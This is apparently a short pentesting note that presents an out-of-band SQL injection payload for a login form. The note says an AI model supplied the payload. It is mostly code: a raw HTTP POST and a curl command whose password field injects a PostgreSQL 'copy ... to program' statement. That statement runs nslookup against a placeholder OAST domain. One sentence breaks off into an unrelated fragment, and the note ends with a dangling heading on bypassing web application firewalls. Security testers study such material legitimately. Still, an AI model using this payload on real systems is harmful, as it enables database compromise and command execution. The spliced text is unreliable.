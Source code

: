 			OAST sqli Based payloads given by copilot

let's walk through an example of how you might use an OAST payload in a proof of concept (PoC) for a login form. For this example, let's assume the login form is on `https://example.com/login` and it accepts two parameters: `username` and `password`.

Here's how you might structure the request with an OAST payload:

**Login Form Request with OAST Payload:**

```sql
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 123

username=testuser&password='; copy (SELECT '') to program 'nslookup YOUR-OAST-DOMAIN' --
```

**Explanation:**

3. **Endpoint**: `https://example.com/login`
    
4. **HTTP Method**: POST
    
5. **Parameters**:
    
    - `username`: The username for the login, e.g., `testuser`.
        
    - `password`: This is where you would insert the OAST payload.
        
        - The payload: `'; copy (SELECT '') to program 'nslookup YOUR-OAST-DOMAIN' --` is designed to exploit the SQL injection vulnerability and trigger a DNS lookup to your OAST domain.
            

In this case, the `password` parameter is the vector for the injection. The payload is structured to end the current SQL query, inject the OAST payload to perform a DNS lookup, and comment out the rest of the SQL statement to avoid errors.altering the request URL, the researcher demonstrated

### Example of OAST Payload Usage

Here's a curl command example of how you might send this request to `example.com`:

```Sh
curl -X POST https://example.com/login -d "username=testuser&password='; copy (SELECT '') to program 'nslookup YOUR-OAST-DOMAIN' --"
```

Replace `YOUR-OAST-DOMAIN` with your actual OAST domain. When the payload is executed, you should see a DNS interaction in your OAST platform, indicating that the code is vulnerable to SQL injection.

##### References:

[Portswigger OAST Overview](https://portswigger.net/burp/application-security-testing/oast)

[Full Guide To OAST](https://www.xenonstack.com/insights/out-of-band-application-security-testing)

---

# WAF Bypass Masterclass: SQLMap + Proxychains + Tamper Scripts(Cloudflare/Modsecurity)
